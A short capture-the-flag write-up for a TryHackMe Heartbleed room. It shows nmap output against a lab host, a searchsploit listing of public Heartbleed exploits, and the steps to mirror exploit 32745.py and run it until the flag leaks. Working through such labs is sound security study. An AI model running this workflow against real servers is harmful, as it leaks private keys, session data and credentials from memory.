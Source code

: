 # Heartbleed
Name: HeartBleed
Date: 23/07/2022
Difficulty:  
Description: SSL issues are still lurking in the wild. Can you exploit this web servers OpenSSL?
Better Description: 
Goals: OSCP HTB box research
Learnt: Heartbleed, using python2 makes me feel dirty

This is very simple room I used to further my research into the vulnerability for a HTB box.
I used the attackbox and scanned for nmap for just pure demonstrative purposes

```bash
root@ip-10-10-228-113:~# nmap -sC -sV -F 34.243.85.159

Starting Nmap 7.60 ( https://nmap.org ) at 2022-07-23 21:58 BST
Nmap scan report for ec2-34-243-85-159.eu-west-1.compute.amazonaws.com (34.243.85.159)
Host is up (0.0012s latency).
Not shown: 97 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:53:e3:d9:9d:44:04:a0:71:83:19:2b:ac:36:69:d5 (RSA)
|   256 b1:1b:9a:a6:35:55:79:a5:f6:93:55:51:c6:88:2c:67 (ECDSA)
|_  256 b9:d3:d1:f2:22:2c:07:bb:f3:a4:b4:44:ef:df:e0:87 (EdDSA)
111/tcp open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          38271/tcp  status
|_  100024  1          52326/udp  status
443/tcp open  ssl/http nginx 1.15.7
|_http-server-header: nginx/1.15.7
|_http-title: What are you looking for?
| ssl-cert: Subject: commonName=localhost/organizationName=TryHackMe/stateOrProvinceName=London/countryName=UK
| Not valid before: 2019-02-16T10:41:14
|_Not valid after:  2020-02-16T10:41:14
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1

root@ip-10-10-228-113:~# searchsploit heartbleed
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds

----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosur | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)    | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (D | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure       | multiple/remote/32745.py
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

root@ip-10-10-228-113:~# searchsploit -m multiple/remote/32745.py # to mirror the exploit

# Change the scrollback to unlimited as there is a lot of null data going to display and I ran the exploit multiple times.

python2 32745.py # till it heartbleeds the flag.
```




